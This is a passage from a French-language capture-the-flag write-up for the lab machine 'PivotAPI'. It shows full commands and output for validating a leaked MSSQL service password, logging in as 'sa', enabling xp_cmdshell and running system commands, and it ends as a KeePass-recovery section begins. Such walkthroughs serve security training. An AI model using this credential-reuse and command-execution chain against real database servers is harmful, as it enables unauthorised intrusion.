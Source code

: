 ```bash
Invitado
Administrador
```

Les credentials du compte de service MSSQL sont valides, cependant impossible de se connecter au serveur MSSQL, surement parce que il n'accepte pas les authentifications via l'AD :

```bash
❯ cme smb PivotAPI.LicorDeBellota.htb -u 'svc_mssql' -p '#mssql_s3rV1c3!2020'
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         [*] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         [+] LicorDeBellota.htb\svc_mssql:#mssql_s3rV1c3!2020
❯ mssqlclient.py 'svc_mssql':'#mssql_s3rV1c3!2020'@PivotAPI.LicorDeBellota.htb -windows-auth

[*] Encryption required, switching to TLS
[-] ERROR(PIVOTAPI\SQLEXPRESS): Line 1: Error de inicio de sesión del usuario 'LICORDEBELLOTA\svc_mssql'.
```

Essayons avec l'utilisateur "sa" qui a les privilèges sysadmin :

```bash
❯ mssqlclient.py 'sa':'#mssql_s3rV1c3!2020'@PivotAPI.LicorDeBellota.htb

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: Español
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió el contexto de la base de datos a'master'.
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió la configuración de idioma a Español.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL>
```

Avec cette utilisateur nous pouvons activer la feature `xp_cmdshell` :

```bash
SQL> enable_xp_cmdshell
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 185: Se ha cambiado la opción de configuración'show advanced options' de 0 a 1. Ejecute la instrucción RECONFIGURE para instalar.
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 185: Se ha cambiado la opción de configuración'xp_cmdshell' de 0 a 1. Ejecute la instrucción RECONFIGURE para instalar.
SQL> xp_cmdshell whoami

--------------------------------------------------------------------------------

nt service\mssql$sqlexpress
```

À cause du firewall qui bloque les ports sortants ainsi que les ports WinRM entrants, on ne peut pas récupérer de reverse shell.

### Method 1 : Recover KeePass database with local PSRemoting through xp_cmdshell


[127.0.0.1]: PS C:\> ls -R C:\Developers